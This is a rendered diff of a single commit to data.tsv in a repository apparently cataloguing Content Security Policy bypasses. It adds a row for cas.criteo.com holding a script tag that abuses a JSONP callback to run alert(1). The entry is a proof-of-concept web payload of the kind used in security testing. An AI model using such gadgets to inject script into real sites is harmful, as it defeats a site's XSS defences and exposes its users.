

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added cas.criteo.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 26: cas.criteo.com | <script src="https://cas.criteo.com/delivery/0.1/napi.jsonp?zoneid=377600&callback=alert(1)"></script> | renniepak
```
